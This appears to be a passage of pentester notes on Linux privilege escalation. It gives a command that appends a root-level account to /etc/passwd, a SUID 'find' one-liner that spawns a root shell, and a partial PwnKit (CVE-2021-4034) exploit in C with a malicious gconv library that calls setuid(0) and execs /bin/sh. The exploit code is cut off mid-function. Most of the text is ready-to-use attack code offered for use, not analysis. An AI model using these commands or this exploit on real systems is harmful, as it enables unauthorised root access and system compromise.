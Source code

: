 Escalating privileges by editing /etc/passwd
```bash
openssl passwd w00t
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
```
- Linux passwords are generally stored in `/etc/shadow`
	- which is not readable by normal users. 
- Historically however, password hashes, along with other account information, were stored in the world-readable file `/etc/passwd`. 
	- For backwards compatibility, if a password hash is present in the second column of an `/etc/passwd` user record, it is considered valid for authentication and it takes precedence over the respective entry in `/etc/shadow`, if available. 
	- This means that if we can write into `/etc/passwd`, we can effectively set an arbitrary password for any account.

Getting a root shell by abusing SUID program (find)
```bash
find /home/hentaisalesman/Desktop -exec "/usr/bin/bash" -p \;
```

# Potential Exploits

## Polkit pkexec (PwnKit CVE-2021-4034)
https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
https://ine.com/blog/exploiting-pwnkit-cve-20214034

- [ ] Create file `evil-so.c`
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```

- [ ] Create file `exploit.c`
```c
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
```